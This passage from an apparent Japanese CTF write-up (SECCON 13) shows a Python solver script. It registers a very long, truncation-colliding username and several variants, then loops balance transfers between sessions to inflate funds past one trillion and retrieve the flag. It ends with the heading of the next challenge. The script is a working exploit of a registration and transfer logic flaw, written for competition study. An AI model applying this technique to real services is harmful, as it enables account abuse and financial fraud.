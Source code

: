 ```python:solver.py
# メインのユーザー作成
username = key + "tchen"

s1 = requests.session()
r = s1.post(URL + "api/register", json={
  "name": username
})
print(r.text)

# DBで重複した名前のユーザー作成
sess = []
prefix = (key + "y" * 65535)[:65535]
s2 = requests.session()
r = s2.post(URL + "api/register", json={
  "name": prefix
})

for i in range(10):
  s = requests.session()
  sess.append(s)
  r = s.post(URL + "api/register", json={
    "name": prefix + str(i)
  })
  print(r.text)


# 一回目の送信(最初だけ10円なので特別扱い)
transfer(s1, 10, prefix)

# 送り戻す
for s in sess:
  transfer(s, 20, username)

# 1兆を超えるまで繰り返し
cur = 200
while cur < 1_000_000_000_000:

  transfer(s1, cur, prefix)
  for s in sess:
    transfer(s, cur, username)
  cur *= 10
  
# フラグ入手
r = s1.get(URL + "api/me")
print(r.text)
```

## ✅ Tanuki Udon (149pts 41solves)

![](/assets/blog/seccon13/591a035ce730-20241125.png)
